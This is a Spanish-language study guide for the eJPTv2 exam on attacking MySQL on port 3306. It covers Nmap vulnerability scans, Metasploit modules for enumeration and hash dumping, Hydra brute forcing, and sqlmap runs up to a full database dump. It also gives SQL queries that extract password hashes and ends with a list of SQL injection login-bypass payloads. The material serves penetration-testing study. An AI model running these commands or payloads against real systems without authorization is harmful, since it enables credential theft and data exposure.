

# 🔍 Puertp - 3306 - MySQL & SqlMap

## **🔍Auditoría de Seguridad en el Puerto 3306 - MySQL**

El puerto **3306** es utilizado por el servicio **MySQL**, una de las bases de datos más utilizadas en entornos empresariales y de desarrollo. Debido a su criticidad, es un objetivo frecuente en auditorías de seguridad.

### **📌 Resumen de Herramientas y Técnicas para Auditoría en MySQL**

Esta guía cubre las principales herramientas y técnicas para auditar MySQL en el puerto 3306 en el examen eJPTv2

### **🛠️ Herramientas Principales.**

🔍 **Nmap + Scripts NSE**: Enumeración y detección de vulnerabilidades.\
🔧 **Metasploit**: Explotación de fallos y acceso no autorizado.\
🛠️ **Hydra & Medusa**: Ataques de fuerza bruta para credenciales.\
📊 **Sqlmap**: Pruebas de inyección SQL automatizadas.

### **🕵️ Reconocimiento e Identificación del Servicio MySQL**

_Determinar la versión del servicio MySQL es fundamental para detectar posibles vulnerabilidades._

<pre class="language-bash"><code class="lang-bash"><strong>nmap -p 3306 -sCV &#x3C;ip_victima> # Escaneo para intentar ver la versión.
</strong>mysql -u "root" -N -h --skip-ssl &#x3C;ip_victima> # Probar a iniciar sesión con una null session.
mysql -u &#x3C;username> -h &#x3C;ip_víctima> -p # Iniciar sesión con credenciales válidas.
nmap -p 3306 --script mysql-info &#x3C;ip_victima>
nmap -p3306 --script vuln &#x3C;ip_victima> # Escaneo completo de vulnerabilidades.
nmap -p 3306 --script mysql-audit,mysql-databases &#x3C;ip_victima>
nmap -p 3306 --script mysql-users,mysql-variables &#x3C;ip_victima> # Enumeración de usuarios y variables del servidor.
nmap -p 3306 --script=mysql-empty-password &#x3C;ip_victima> # Detección de contraseñas vacías.
nmap -p 3306 --script=mysql-variables --script-args="mysqluser='&#x3C;username>',mysqlpass='&#x3C;password>'" &#x3C;ip_victima> # Obtener Variables de Configuración con Credenciales
nmap -p 3306 --script=mysql-dump-hashes --script-args="username='&#x3C;username>',password='&#x3C;password>'" &#x3C;ip_victima> # Extracción de Hashes de Contraseñas
nmap -p 3306 --script=mysql-query --script-args="query='select count(*) from &#x3C;nombre_db>.&#x3C;nombre_tabla>;',username='&#x3C;username>',password='&#x3C;password>'" &#x3C;ip_victima> # Ejecución de Consultas Personalizadas
nmap -p 3306 --script ms-sql-brute --script-args userdb=/&#x3C;wordlists.txt>,passdb=/&#x3C;wordlists.txt> &#x3C;ip_victima> # Fuerza Bruta contra SQL Server
</code></pre>

### **🔨 Uso de Metasploit para Auditoría de MySQL.**

**Enumeración de usuarios.**

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_enum # Enumeración de usuarios
set RHOSTS <ip_victima>
run
```

**Ataque de autenticación débil.**

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <ip_victima>
set USERNAME root
set PASSWORD password
run
```

**Lista recursos mysql.**

```bash
use auxiliary/admin/mysql/mysql_enum # Enumeración de Información en MySQL
use auxiliary/admin/mysql/mysql_sql # Ejecución de Consultas SQL
use auxiliary/scanner/mysql/mysql_file_enum # Enumeración de Archivos en el Sistema
use auxiliary/scanner/mysql/mysql_hashdump #Extracción de Hashes de Contraseñas
use auxiliary/scanner/mysql/mysql_schemadump # Extracción de la Estructura de la Base de Datos
use auxiliary/scanner/mysql/mysql_version # Identificación de la Versión de MySQL
use auxiliary/scanner/mysql/mysql_writable_dirs # Identificación de Directorios con Permisos de Escritura
```

### **🔑 Fuerza brutal al servicio MySQL**

**Hydra**

```bash
hydra -l <username> -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip_victima> mysql
# Si hicieramos un ataque de fuerza bruta a diferentes usuarios podriamos utilizar la flag -u para iterar entre los diferentes usuarios y que no vaya uno por uno probando todas las contraseñas.
```

## **Metasploit**

```bash
msfconsole -q
use auxiliary/scanner/mysql/mysql_login # Ataque de Fuerza Bruta contra MySQL
set RHOSTS <ip_victima>
set USER_FILE /ruta_diccionario.txt
set PASS_FILE /ruta_diccionario.txt
set USERNAME <username>
set password <password>
set THREADS <número> # Definir número de intentos por segundo (Opcional, por defecto 5)
exploit
```

**SqlMap para auditar panel login.**

Lo primero que debemos hacer es interceptar la petición en Burpsuite y le damos en la opción **Copy to file**.

<figure><figcaption></figcaption></figure>

Ahora que tenemos guardado el archivo de la petición, vamos a lanzar la herramienta **sqlmap** con la siguiente sintaxis:

```bash
sqlmap -r <nombre_archivo>
```

De este modo lo que le estaremos indicando a sqlmap los parámetros en los que tiene que actuar.

El uso mas básico que le podríamos dar a esta herramienta seria el siguiente:

```bash
sqlmap -u '<url>' --forms --batch --dbs 
```

* _--forms:_ Este parámetro le indica a `sqlmap` que busque formularios en la página web. Los formularios son a menudo puntos de entrada para datos proporcionados por el usuario, lo que significa que son posibles vectores de inyección SQL. `sqlmap` escaneará los formularios que encuentre y los probará para detectar vulnerabilidades.
* _--batch:_ `sqlmap` interactúa con el usuario durante su ejecución para hacer preguntas o solicitar confirmaciones. El uso de `--batch` hace que `sqlmap` tome las decisiones automáticamente utilizando sus valores predeterminados, sin pedir interacción con el usuario. Es útil cuando se ejecuta `sqlmap` en scripts o cuando quieres automatizar el proceso.
* _--dbs:_ Este parámetro le dice a `sqlmap` que, si encuentra una vulnerabilidad de inyección SQL, debe enumerar las bases de datos disponibles en el servidor. Es una opción utilizada para extraer información crítica, que en este caso son los nombres de las bases de datos.

Una vez sepamos que bases de datos existen, vamos seguir utilizando _sqlmap_ pero esta vez le vamos a proporcionar otra sintaxis.

añadiremos `-D <nombre_db>` y `--tables` para indicarle por un lado que nos muestre la base de datos de _users_ y por otro lado que nos muestre las columnas de dicha base de datos.

```bash
sqlmap -u '<url>' --forms --batch -D <nombre_db> --tables
```

Ahora que sabemos el nombre de dicha columna, vamos a indicarle a _sqlmap_ que nos haga otra petición pero esta vez con el parámetro `--colums`

```bash
sqlmap -u '<url>' --forms --batch -T <nombre> --columns
```

Cuando no tenemos mucha información otro parámetro que podemos utilizar es: `--dump` que nos arrojará toda la información posible sin necesidad de tener que ir 1 por 1. (significativamente mas lento)

```bash
sqlmap -u '<url>' --forms --batch --dump
```

### **📊 Comando para interactuar con MySQL**

```bash
mysql -u <usuario>  -p # Iniciar sesión con credenciales válidas.
mysql -h <ip_servidor_> -u <usuario> -p # Conectarte a un servidor MySQL remoto.
mysql -h <ip_servidor> -P <puerto> -u <username> -p # MySQL escucha en un puerto distinto al 3306, especifica el puerto.
help # Abre el menu de ayuda
show databases; # Mostrar Bases de Datos.
use <nombre_basededatos>; # Seleccionar una Base de Datos.
show tables; # Mostrar Tablas dentro de la Base de Datos.
describe <nombre>; # Describir la Estructura de una Tabla.
select * from <nombre> # Extraer Todos los Registros de una Tabla.
SELECT <nombre_columna> FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='<nombre_tabla>'; # Muestra todas las columnas** de una tabla sin necesidad de DESCRIBE.
SELECT user,host FROM mysql.user; # Buscar Usuarios de MySQL
SELECT user,authentication_string FROM mysql.user; # Obtener los Hashes de Contraseñas de los Usuarios MySQL.
```

**🛑 Errores Comunes y Soluciones**

1️⃣ _Error:_ `Access denied for user 'root'@'localhost' (using password: YES)`\
🔹 _Solución:_ Asegúrate de que la contraseña es correcta o usa \`sudo mysql -u .

2️⃣ _Error:_ `Can't connect to MySQL server on '127.0.0.1' (111)`\*\*\
🔹 _Solución:_ Verifica que MySQL está corriendo.

### Algunos ejemplos de SQLinjection

```bash
admin' --
admin' #
admin' /*
' OR 1=1;-- -
' OR 1=1#
' OR 1=1/*
') OR '1'='1-- -
') OR ('1'='1-- -
' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1-- -
```


